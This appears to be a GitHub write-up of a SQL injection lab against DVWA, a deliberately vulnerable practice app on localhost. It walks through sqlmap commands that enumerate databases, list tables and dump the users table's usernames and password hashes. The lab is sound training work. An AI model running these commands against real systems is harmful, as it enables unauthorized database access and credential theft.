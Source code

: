 # SqlInjection
How I performed Sql Injection on DVWA (Damn Vulnerable Web Application)
# sqlinjection
# SQL Injection on DVWA – Write-Up

Target
Application: Damn Vulnerable Web Application (DVWA)
Vulnerability: SQL Injection (sqli module)
---------------------------------------------------
# Initial Reconnaissance

After accessing the SQL Injection module in DVWA, I noticed that the application accepted a GET parameter (id) that could be vulnerable to injection.

Example vulnerable request:
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit

<img width="1335" height="538" alt="sqli dvwa1" src="https://github.com/user-attachments/assets/d896c1bc-d472-46db-92da-e84c4f173018" />

# Database Enumeration
I used sqlmap to automate the exploitation of the injection point.
Command executed:
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs --batch

<img width="1054" height="553" alt="sqli2" src="https://github.com/user-attachments/assets/188123b5-be99-4a0d-9711-f4f3cbc7db81" />

# Database Exfiltration
Once databases were confirmed, I selected the target database (in this case dvwa).
Command: sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --tables --batch
<img width="1353" height="587" alt="sqlidbexfiltrate" src="https://github.com/user-attachments/assets/e8846dc2-f5f9-4885-8dfb-2d20f0e90e7f" />
Result: Extracted table names from the dvwa database (e.g., users, guestbook).

# Table Extraction
Next, I dumped the contents of the users table, which typically stores credentials.
Command: sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa -T users --dump --batch

<img width="1053" height="567" alt="sqligainedaccess" src="https://github.com/user-attachments/assets/2e8c9d2f-9f6b-4c8a-9e97-dd70c3d1394c" />
Result: Extracted user information including usernames, password hashes, and other sensitive details.
which resulted in me gaining access.
<img width="1053" height="567" alt="sqligainedaccess" src="https://github.com/user-attachments/assets/b18272c9-4d80-4d5f-8444-b500a2d286a9" />
